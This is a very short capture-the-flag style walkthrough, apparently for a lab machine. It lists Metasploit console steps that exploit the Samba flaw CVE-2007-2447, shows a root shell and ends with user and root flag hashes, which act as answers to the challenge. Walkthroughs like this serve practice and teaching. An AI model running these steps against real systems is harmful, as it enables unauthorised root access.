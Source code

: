 sudo msfconsole
search CVE-2007-2447
show options
set RHOST,LHOST etc.
run

whoami -> root
usr.txt
90f96886185e7f3825fed258d8d04332
root.txt
75debe46a1d44731d9438c48edfb11cd
